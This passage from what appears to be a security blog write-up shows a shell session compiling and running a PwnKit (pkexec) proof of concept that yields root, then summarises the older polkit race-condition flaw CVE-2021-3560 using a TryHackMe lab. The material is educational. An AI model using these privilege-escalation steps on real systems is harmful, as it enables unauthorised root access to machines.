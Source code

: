 ```shell
kali@transistor:/tmp/pwnkit$ cat /etc/os-release
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
ID=kali
VERSION="2021.4"
VERSION_ID="2021.4"
VERSION_CODENAME="kali-rolling"
ID_LIKE=debian
ANSI_COLOR="1;31"
HOME_URL="https://www.kali.org/"
SUPPORT_URL="https://forums.kali.org/"
BUG_REPORT_URL="https://bugs.kali.org/"
kali@transistor:/tmp/pwnkit$ uname -a; id
Linux transistor 5.14.0-kali4-amd64 #1 SMP Debian 5.14.16-1kali1 (2021-11-05) x86_64 GNU/Linux
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),120(wireshark),134(scanner),142(vboxsf),143(kaboxer),148(docker)
kali@transistor:/tmp/pwnkit$ gcc -o poc poc.c
kali@transistor:/tmp/pwnkit$ ./poc
# whoami; id                                                                                                                                                                                                                                 
root
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),120(wireshark),134(scanner),142(vboxsf),143(kaboxer),148(docker),1000(kali)
```
<sup>Although kali is part of the sudoers group, the user requires a password to be entered to run sudo commands, so ignore that.</sup> 

## Beyond the Shell
### CVE-2021-3560
This is not the first time, nor has it been that long since, polkit/pkexec has had some exploit. In early 2021, a researcher named [Kevin Backhouse](https://github.blog/author/kevinbackhouse/) discovered a "race condition" vulnerability in `pkexec` which could allow for a local privilege escalation. 

I'm not going to go through excruciating detail about the vulnerability like I did with pwnkit, mainly because [MuirlandOracle](https://muir.land) does an excellent job explaining and demonstrating this in his TryHackMe room, found [here](https://tryhackme.com/room/polkit). Essentially, there was poor error-handling in polkit that made it so if you killed a message that was sent to the dbus-daemon to destroy the ID, polkit just assumed you were root. The easiest way to exploit this was by creating an account that had unrestricted sudo permissions.

This vulnerability has since been patched and is really just old news at this point, but I thought it was worth covering since these events happened within a year of each other.

### Running It
I'll use the VM provided in the TryHackMe room to show off the vulnerability, rather than downgrading polkit on my own VMs.
